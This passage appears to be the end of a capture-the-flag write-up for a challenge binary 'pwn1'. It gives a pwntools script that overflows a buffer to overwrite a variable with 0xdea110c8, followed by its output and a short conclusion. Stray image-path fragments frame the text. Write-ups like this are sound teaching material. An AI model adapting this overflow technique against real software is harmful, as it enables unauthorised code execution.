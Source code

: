 ### Exploit

After getting also the important piece of information we can finally write the exploit -

```python
from pwn import *

p = process('./pwn1')

p.sendlineafter(b"What... is your name?",b"Sir Lancelot of Camelot")
p.sendlineafter(b"What... is your quest?",b"To seek the Holy Grail.")
p.sendlineafter(b"What... is my secret?",b'\x00'*43+p32(0xdea110c8))

print(p.recvall().decode())

```

Running the script - 

```
kris3c@0x4B1T-ubuntu:~/$ ./my_script.py
```

Output -

``` 
[+] Starting local process './pwn1': pid 11107
[+] Receiving all data: Done (39B)
[*] Process './pwn1' stopped with exit code 0 (pid 11107)

Right. Off you go.
flag{REDACTED}
```

We got the flag and this marks the end of this writeup.

### Conclusion

This 32-bit PIE binary had NX and full RELRO, but no stack canary, allowing a buffer overflow to overwrite a critical variable and trigger print_flag, successfully retrieving the flag./tree/main/src
